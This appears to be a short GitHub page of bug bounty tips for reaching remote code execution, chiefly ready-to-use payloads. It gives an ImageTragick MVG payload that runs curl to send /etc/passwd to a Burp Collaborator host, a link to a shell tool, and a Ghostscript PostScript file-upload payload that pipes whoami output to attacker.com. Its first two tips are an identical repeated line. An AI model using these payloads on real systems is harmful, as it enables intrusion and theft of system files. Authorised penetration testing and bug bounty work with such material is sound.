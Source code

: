 #                                       Finding RCE: Bug bounty Tips

## TIP-1

    If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
    
## TIP-2 

  If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
  
  
## TIP-3 

    Recon to RCE:
    Google "upload" site:”target" -> upload form -> ImageTragick MVG -> RCE

    PoC:
    push graphic-context viewbox 0 0 200 200 fill 'url(https://example.123 "|curl -d "@/etc/passwd" -X POST https://xxx.burpcollaborator.net/test1")' pop graphic-context
    

    (https://github.com/vishwaraj101/imagetragick)[This Tool imgetragick get shell]
    
## TIP-4 

    (RCE on PDF upload:)[https://twitter.com/huntmost/status/1192670565963911169]

    Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
    Content-Type: application/pdf

    %!PS
    currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
    .putdeviceparams
    quit
